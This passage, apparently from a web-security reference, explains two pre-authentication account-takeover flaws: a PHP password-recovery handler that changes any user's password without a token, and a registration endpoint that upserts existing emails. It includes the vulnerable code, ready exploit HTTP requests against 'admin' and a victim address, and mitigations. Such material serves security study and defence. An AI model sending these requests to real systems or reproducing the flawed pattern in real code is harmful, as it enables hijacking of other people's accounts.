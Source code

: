 Some implementations expose a password change action that calls the password-change routine with skipOldPwdCheck=true and does not verify any reset token or ownership. If the endpoint accepts an action parameter like change_password and a username/new password in the request body, an attacker can reset arbitrary accounts pre-auth.

Vulnerable pattern (PHP):

```php
// hub/rpwd.php
RequestHandler::validateCSRFToken();
$RP = new RecoverPwd();
$RP->process($_REQUEST, $_POST);

// modules/Users/RecoverPwd.php
if ($request['action'] == 'change_password') {
  $body = $this->displayChangePwd($smarty, $post['user_name'], $post['confirm_new_password']);
}

public function displayChangePwd($smarty, $username, $newpwd) {
  $current_user = CRMEntity::getInstance('Users');
  $current_user->id = $current_user->retrieve_user_id($username);
  // ... criteria checks omitted ...
  $current_user->change_password('oldpwd', $_POST['confirm_new_password'], true, true); // skipOldPwdCheck=true
  emptyUserAuthtokenKey($this->user_auth_token_type, $current_user->id);
}
```

Exploitation request (concept):

```http
POST /hub/rpwd.php HTTP/1.1
Content-Type: application/x-www-form-urlencoded

action=change_password&user_name=admin&confirm_new_password=NewP@ssw0rd!
```

Mitigations:
- Always require a valid, time-bound reset token bound to the account and session before changing a password.
- Never expose skipOldPwdCheck paths to unauthenticated users; enforce authentication for regular password changes and verify the old password.
- Invalidate all active sessions and reset tokens after a password change.

## Registration-as-Password-Reset (Upsert on Existing Email)

Some applications implement the signup handler as an upsert. If the email already exists, the handler silently updates the user record instead of rejecting the request. When the registration endpoint accepts a minimal JSON body with an existing email and a new password, it effectively becomes a pre-auth password reset without any ownership verification allowing full account takeover.

Pre-auth ATO PoC (overwriting an existing user's password):

```http
POST /parents/application/v4/admin/doRegistrationEntries HTTP/1.1
Host: www.target.tld
Content-Type: application/json

{"email":"victim@example.com","password":"New@12345"}
```
